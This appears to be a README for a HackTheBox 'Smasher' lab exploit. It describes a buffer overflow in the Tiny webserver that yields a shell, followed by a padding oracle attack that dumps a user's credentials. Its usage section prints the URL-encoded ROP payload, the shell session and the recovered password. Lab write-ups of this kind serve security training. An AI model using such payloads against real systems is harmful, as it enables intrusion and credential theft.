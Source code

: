 ## Challenge

[Smasher](https://www.hackthebox.eu/home/machines/profile/141) from Hackthebox.eu

## Description

Performs a buffer overflow in the Tiny webserver running on Smasher to get a shell. With the shell, it performs a Padding Oracle Attack on a local service to dump credentials for smasher.

## Reference

Originally published in blog posts:
- https://0xdf.gitlab.io/2018/11/24/htb-smasher.html
- https://0xdf.gitlab.io/2018/11/24/htb-smasher-bof.html

## Dependencies

[python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)

## Usage

```
root@kali:~/hackthebox/smasher-10.10.10.89# python tiny_exploit.py
[*] BSS address: 603260
[*] plt read address: 400cf0
[*] payload: A..A%dd%11%40%00%00%00%00%00%04%00%00%00%00%00%00%00%db%11%40%00%00%00%00%00%60%32%60%00%00%00%00%00%60%32%60%00%00%00%00%00%f0%0c%40%00%00%00%00%00%60%32%60%00%00%00%00%00
[+] Opening connection to 10.10.10.89 on port 1111: Done
[+] Shell on 10.10.10.89 as www
Type 'shell' for shell, anything else to continue
>

[*] Connecting to 127.0.0.1 1337 for AES challenge
[*] data: irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==
[*] data is 64 bytes long, 4 blocks
[*] Attack Buffer:
00000000  ba 30 89 72  ff 9c 1f e5  5b 2c 55 ac  ed 23 c7 75  │·0·r│····│[,U·│·#·u│
00000010  a3 a8 52 a3  ab 68 82 a2  d8 21 31 86  a4 fb 17 76  │··R·│·h··│·!1·│···v│
00000020
plaintext:  user 'smasher' is: PaddingOracleMaster123\x06\x06\x06\x06\x06\x06
[*] Closed connection to 10.10.10.89 port 1111
```
